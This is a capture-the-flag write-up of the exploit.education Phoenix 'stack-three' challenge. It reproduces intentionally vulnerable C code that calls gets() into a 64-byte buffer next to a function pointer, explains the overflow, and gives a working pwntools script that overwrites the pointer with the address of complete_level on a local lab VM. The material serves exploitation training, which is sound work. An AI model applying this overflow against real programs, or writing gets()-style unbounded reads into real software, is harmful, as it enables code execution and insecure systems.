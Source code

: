 ## Stack-Three


![](https://Cyberguru1.github.io/posts/phoenix/files/st3_header.png)

### Source Code
---

```
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}

```

Let's Dig in the code

- In the `main` function, a structure named `locals` is declared. It contains an array of characters called `buffer` with a size of `64` and a pointer to a function called `fp`.

- The banner message is printed using the `BANNER` macro.

- Next, the `fp` function pointer is set to `NULL`. Then, the `gets` function is called with the `buffer` as an argument, allowing user input to be stored in the `buffer`. This is a potential vulnerability since gets does not perform bounds checking and can lead to a buffer overflow.

- Afterward, an if statement checks `if` the `fp` function pointer is `non-null`. If it is, the address of the function pointer is printed, and the function pointer is called.

If the `fp` function pointer is still `NULL`, a message is printed indicating that the function pointer remains unmodified.

- Finally, the program exits with a status of 0.

The goal of the challenge is to change the value of the fp pointer to the address of the complete_level function, using GDB we could extract the address of the function

![](https://Cyberguru1.github.io/posts/phoenix/files/st3_f-address.png)

the function address is `0x40069d`

this challenge is similar to the previous stack challenge, hence we use a similar script but with a slice change of parameters

### Solution Script
---

```
#!/usr/bin/python
## script by Hamza Saidu
## enjoy!!!

from pwn import *


s = ssh(host='localhost', user='user', password='user', port=2222)

p = s.process('/opt/phoenix/amd64/stack-three')

print(p.recvline())
p.sendline("A"*64 +"\x9d\x06\x40")
print(p.recvline())
print(p.recv(1024))

```
running the script we got:

![](https://Cyberguru1.github.io/posts/phoenix/files/st3_result.png)

And viola!! Our complete_level function is called.